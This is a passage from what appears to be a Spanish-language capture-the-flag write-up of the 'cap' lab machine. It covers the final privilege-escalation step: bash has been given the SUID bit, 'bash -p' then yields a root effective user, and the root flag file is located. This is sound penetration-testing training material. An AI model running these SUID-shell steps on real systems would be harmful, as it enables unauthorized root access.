 Una vez ejecutamos el comando anterior con la llamada a Python3.8, vemos que se a asignado el permiso SUID al binario Bash:

![](body/7f5471f4ef66dce8f0b458012dbce597669e97d6.png)

Como siempre, solo nos quedaría ejecutar bash con la opción -p para obtener shell con el contexto de usuario root

```bash
nathan@cap:~$ bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1001(nathan) gid=1001(nathan) euid=0(root) groups=1001(nathan)
```

### Root Flag

Ya podemos visualizar la flag de root:

```bash
bash-5.0# cd /root/

bash-5.0# ls -l
total 8
-r-------- 1 root root   33 Jun 23 07:08 root.txt
drwxr-xr-x 3 root root 4096 May 23 19:17 snap

bash-5.0# wc -c root.txt 
33 root.txt
```
